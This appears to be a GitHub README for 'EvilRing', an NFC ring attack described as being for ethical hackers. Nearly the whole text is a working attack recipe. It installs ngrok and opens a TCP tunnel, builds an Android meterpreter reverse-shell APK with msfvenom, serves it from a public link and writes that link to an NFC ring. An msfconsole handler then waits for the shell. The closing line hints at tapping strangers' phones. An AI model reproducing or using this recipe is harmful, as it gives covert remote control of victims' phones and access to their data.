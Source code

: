 # EvilRing
EvilRing: An NFC Ring for ethical hackers

Setup:

1. Install ngrok using the following commands:
  
`wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz`

`tar -xzvf ngrok-v3-stable-linux-amd64.tgz`

`chmod +x ngrok`

`sudo mv ngrok /usr/local/bin/ngrok`

`rm ngrok-v3-stable-linux-amd64.tgz`

`ngrok config add-authtoken YOUR-AUTH-TOKEN-HERE`


2. Create an ngrok TCP tunnel

(Free Version)

`ngrok tcp 4242`

(Paid Version) - Recommended
Start your reserved TCP tunnel from ngrok dashboard and then connect to it from your terminal. 
This way the connection is persistent anywhere in the world. 
Replace the stars with your specific ngrok address and port number. 4242 will be the port we listen to locally for connections on metasploit.

`ngrok tcp --region=us --remote-addr=*.tcp.ngrok.io:* 4242`

3. Generate your payload with msfvenom, change the ngrok variables:
  
`msfvenom -p android/meterpreter/reverse_tcp LHOST=<ngrok tunnel ip> LPORT=<ngrok tunnel port> -o evilring.apk`

4. Serve your file from a direct-download link (like python3 httpserver and another ngrok tunnel for toss-away file host):
  
`python3 -m http.server 8080`

`./ngrok http 8080`

5. Copy your direct download link to your NFC ring (http://***.***/evilring.apk)
This can be done with the proxmark3, chameleon tiny, or even just an NFC enabled device using the NFC Tools app.

6. On your command and control open msfconsole:
  
`msfconsole -q`

(inside msfconsole)
`use exploit/multi/handler`

`set payload android/meterpreter/reverse_tcp`

`set LHOST 0.0.0.0`

`set LPORT 4242`

`run`
  
7.  (Dont) go an hold onto some phones!
